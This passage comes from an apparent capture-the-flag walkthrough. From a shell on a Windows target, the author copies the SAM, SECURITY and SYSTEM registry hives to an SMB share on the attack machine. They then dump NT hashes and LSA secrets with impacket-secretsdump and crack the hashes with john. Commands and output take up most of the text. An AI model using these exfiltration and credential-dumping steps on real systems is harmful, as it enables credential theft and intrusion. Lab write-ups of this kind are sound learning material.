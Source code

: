 From the target host I was now able to validate that I could see and connect to the newly started share and promptly copied the hives back to my attack machine.

```powershell
C:\>net view \\10.10.47.175
net view \\10.10.47.175
Shared resources at \\10.10.47.175

(null)

Share name  Type  Used as  Comment  

-------------------------------------------------------------------------------
BLUE        Disk                    
The command completed successfully.


C:\>copy C:\sam.save \\10.10.47.175\BLUE\sam.save
copy C:\sam.save \\10.10.47.175\BLUE\sam.save
        1 file(s) copied.

C:\>copy C:\security.save \\10.10.47.175\BLUE\security.save
copy C:\security.save \\10.10.47.175\BLUE\security.save
        1 file(s) copied.

C:\>copy C:\system.save \\10.10.47.175\BLUE\system.save
copy C:\system.save \\10.10.47.175\BLUE\system.save
        1 file(s) copied.
```

With these credentials now available locally, I could extract the user hashes using `secretsdump` from impacket and perform the same attack with `john` that I had performed before.

```bash
root@kali:~/ctf/extractor# impacket-secretsdump -sam sam.save -security security.save -system system.save LOCAL
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0x55bd17830e678f18a3110daf2c17d4c7
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] DPAPI_SYSTEM 
dpapi_machinekey:0xdc31ac35e19a18b00b5b066de3e8da898bf8da71
dpapi_userkey:0xfaea7403f42b58e1a5dd35ee816185a953b1c795
[*] NL$KM 
 0000   45 94 4A 93 A2 9D D2 8E  2B CF 5F DF 66 75 59 4C   E.J.....+._.fuYL
 0010   E9 BC B8 91 2C 66 59 1E  BF 53 1E 77 BE C2 9B 74   ....,fY..S.w...t
 0020   73 64 04 B4 56 EA 7D 6F  BA C2 1B 7E F0 BA 53 67   sd..V.}o...~..Sg
 0030   E6 E6 66 84 95 1F 90 60  42 EE 34 0A EE 99 9F 55   ..f....`B.4....U
NL$KM:45944a93a29dd28e2bcf5fdf6675594ce9bcb8912c66591ebf531e77bec29b74736404b456ea7d6fbac21b7ef0ba5367e6e66684951f906042ee340aee999f55
[*] Cleaning up...

root@kali:~/ctf/extractor# impacket-secretsdump -sam sam.save -security security.save -system system.save LOCAL | egrep 'Administrator|Guest|Jon' > hash.txt
root@kali:~/ctf/extractor# john -format=NT --wordlist=/usr/share/wordlists/rockyou.txt hash.txt 
Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (NT [MD4 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
                 (Administrator)
```